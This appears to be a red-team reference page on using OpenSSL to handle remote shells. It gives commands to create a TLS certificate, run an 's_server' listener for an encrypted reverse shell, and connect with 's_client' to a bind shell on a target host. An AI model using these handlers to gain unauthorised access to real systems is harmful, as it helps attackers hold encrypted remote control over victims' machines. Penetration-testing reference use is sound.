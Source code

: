 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - cross-platform
  - openssl
---
```

# OpenSSL

## 01 - Reverse Shell Handler

Generate TLS certificate.

```
userware@hackware-os:~$ openssl req -x509 -newkey rsa:4096 -days 365 -nodes -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email> -keyout private.key -out certificate.crt
```

Launch shell handler.

```
userware@hackware-os:~$ openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>
```

## 02 - Bind Shell Handler

```
userware@hackware-os:~$ openssl s_client -quiet -connect <target_IP>:<target_PORT>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Linux/Code Execution/One-Liners/Reverse Shells/OpenSSL|OpenSSL: Reverse Shells]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Linux/Code Execution/One-Liners/Bind Shells/OpenSSL|OpenSSL: Bind Shells]]